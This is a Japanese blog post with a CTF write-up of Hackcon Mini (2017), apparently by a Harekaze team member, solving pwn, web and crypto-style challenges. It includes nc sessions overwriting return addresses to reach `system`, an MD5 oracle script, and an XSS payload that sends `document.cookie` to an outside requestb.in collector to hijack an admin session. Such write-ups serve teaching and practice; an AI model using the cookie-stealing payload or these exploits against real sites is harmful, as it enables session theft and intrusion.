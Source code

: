 ```yaml
---
layout: post
title: Hackcon Mini の write-up
categories: [ctf]
date: 2017-02-12 05:30:00 +0900
---
```


チーム Harekaze で [Hackcon Mini](http://hackcon.in/) に参加しました。

最終的にチームで 585 点を獲得し、順位は 8 位 (得点 110 チーム中) でした。うち、私は 6 問を解いて 590 点を入れました。

…計算が合いませんが、これは罠として仕込まれている特定のフラグを送信すると、マイナスの得点が入ってしまうという問題があったためです。

以下、解いた問題の write-up です。

## [PWN 30] Random

乱数を当てろという問題です。最初に `srand(time(NULL))` をしており、しかもこの `time(NULL)` の値を教えてくれるので、こちらで再現した値を投げれば終わりです。

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
  srand(atoi(argv[1]));
  printf("%d\n", rand());
  return 0;
}
```

```
HACKCON{n00b_scrubs_get_me_a_real_pwn!}
```

## [PWN 100] Game of Integers - Part 1

SSP がありますが、canary を書き換えずに直接リターンアドレスを書き換えられます。`run_me` に飛ばしましょう。

```
$ nc 35.154.158.26 31338
Which index do you want to overwrite?
24
Enter value to overwrite:
134513979
Lets see!
HACKCON{Exploitation_Is_All_About_Magic_Numbers}
Its impossible to run me. Is it?
```

```
HACKCON{Exploitation_Is_All_About_Magic_Numbers}
```

## [PWN 200] Game of Integers - Part 2

`run_me` は潰されてしまっているようなので、直接 `system` を呼んでしまいましょう。

```
$ nc 35.154.158.26 31337
Which index do you want to start the overwrite?
24
How many integers?
3
Enter value to overwrite:
134513664
Enter value to overwrite:
1094795585
Enter value to overwrite:
134514497
Lets see!
HACKCON{ROP_WITH_INTS}
```

```
HACKCON{ROP_WITH_INTS}
```

## [Web 50] Webdev

DevTools を開きながらページを見ると、`movie.gif` というやけに大きな gif を取りに行っているのが確認できます。

この gif はアニメーションでチカチカ点滅していますが、白が表示される間隔が少しズレているように思えます。黒を 0 白を 1 として文字列にしてみましょう。

```python
from PIL import Image
im = Image.open('movie.gif')
w, h = im.size
res = ''
try:
  while True:
    i = im.convert('RGB')
    res += '0' if i.getpixel((0, 0)) == (0, 0, 0) else '1'
    im.seek(im.tell() + 1)
except:
  print(res)
```

結果を `result.txt` として保存して、さらに次のスクリプトを実行します。

```python
s = open('result.txt').read().strip()
s = s.replace('00000', ' ')
s = s.replace('0000', '-')
s = s.replace('000', '.')
s = s.replace('1', '')
print(s)
```

```
.... . .-.. .-.. ---   ..-. .-. .. . -. -..   .... . .-.. .-.. ---   ..-. .-. .. . -. -..   - .... .- - ...   .-.. .- -- .   -- .- -.-- -... .   ..   ... .... --- ..- .-.. -..   --. .. ...- .   -.-- --- ..-   .-   -. .- -- .   -... ..- -   - .... .- - ...   .-   ... .-.. .. .--. .--. . .-. -.--   ... .-.. --- .--. .   -.-- --- ..- .-. .   --- -. .-.. -.--   .. -.   -- -.--   .... . .- -..   .-- .   .... .- ...- .   - ---   .-. . -- . -- -... . .-.   - .... .- -   .- -. -..   --- -. .   - .... .. -. --.     -... - .--   - .... .   ..-. .-.. .- --.   .. ...   .... .- -.-. -.- -.-. --- -. -- --- .-. ... . ..-. .-.. .- --.
```

モールス信号が出てきました。これをデコードするとフラグが出てきました。Web とは…。

```
HACKCONMORSEFLAG
```

## [Web 60] Admin Login

とりあえずデモユーザーでログイン。試しに `<s>haifuri</s>` をポストすると、エスケープされずに表示されました。XSS があるようです。

`<script>(new Image).src='http://requestb.in/xxx?'+document.cookie;</script>` をポストしてみると、サーバの IP アドレスからセッション ID 付きでアクセスが来ました。

このセッション ID をセットして更新すると、フラグが表示されました。

```
seSSi0n_h!Jack1ng_!s_@wesOmEEEEE!
```

## [Web 150] BF

問題文を確認しましょう。得られた文字列が `tyuio` のときフラグは `87c1b071153ae8fd35acfd9ab3f3f6bb` で、`juteg` のときフラグは `d6d684e70bb4c5801b012151141add87` になるようです。

[CrackStation](https://crackstation.net/) に `87c1b071153ae8fd35acfd9ab3f3f6bb` を投げるとこれは `bgcqw` の md5 ハッシュだと分かりました。これは `tyuio` をシーザー暗号で右に 8 シフトさせた文字列です。

動いているサービスを確認しましょう。任意の Brain なんとかのコードを実行できますが、返ってくる出力は md5 にかけられてしまっています。そして、欲しい文字列は入力として入ってきます。

1 バイトずつ出力させれば、あらかじめテーブルを作っておくだけで元の文字が分かります。

```python
import hashlib
import requests

t = {}
for x in range(256):
  t[hashlib.md5(bytes([x])).hexdigest()] = chr(x)

i = 1
res = ''
while True:
  r = requests.get('http://35.154.158.26:10300/{}.'.format(',' * i))
  res += t[r.content.decode('ascii')]
  print(res)
  i += 1
```

結果は `bpqaqabpmwzqoqvitntioGMAAAAABPMnTiOQaippipilpplpl` でした。これを右に 8 シフトさせて md5 にかけたものがフラグです。

```
9418ba5c569b70839474e121a7a72d58
```

## 感想

この CTF は競技時間が 5 時間と非常に短いものでした。問題の量と難易度はその短さに見合ったものでしたが、それでもちょっとなあという感じです。
